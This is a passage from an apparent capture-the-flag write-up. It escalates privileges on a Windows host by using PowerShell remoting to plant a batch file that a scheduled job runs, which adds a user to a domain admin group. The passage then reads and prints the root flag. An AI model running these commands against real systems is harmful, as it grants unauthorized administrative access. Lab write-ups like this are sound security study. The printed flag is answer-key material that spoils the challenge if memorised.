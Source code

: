 Now prying we find `keepmeon.bat`:

    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {ls /"program files"/keepmeon} -credential $cred
    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {cat /"program files"/keepmeon/keepmeon.bat} -credential $cred



<img width="877" alt="image" src="https://user-images.githubusercontent.com/10171446/179353956-0622cec8-1456-418f-a3e0-f9538e90eebd.png">

Now this `keepmeon.bat` file runs as a Cron job every 5 minute, which we can use to creat a payload.

So, let's add `awallace` to the group of `site_admin` and wait 5 minutes

    Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}

We can confirm the user `awallace` is part of the `site_admin` group by:

    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {net group site_admin} -credential $cred

<img width="884" alt="image" src="https://user-images.githubusercontent.com/10171446/179354082-6065e733-941f-4fcc-836f-67c2ff8f7463.png">

    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {ls /users/administrator/desktop} -credential $cred
    ...

Now we are part of the `site_admin` group we can get `root.txt` flag.


    invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {cat /users/administrator/desktop/root.txt} -credential $cred

<img width="882" alt="image" src="https://user-images.githubusercontent.com/10171446/179354238-3e94f597-21f4-4000-8530-58fe93018089.png">

    b30bb6ee56995e0d6f5d39d6f9f81d8a



# Reproduce

See research


# Flag

b30bb6ee56995e0d6f5d39d6f9f81d8a

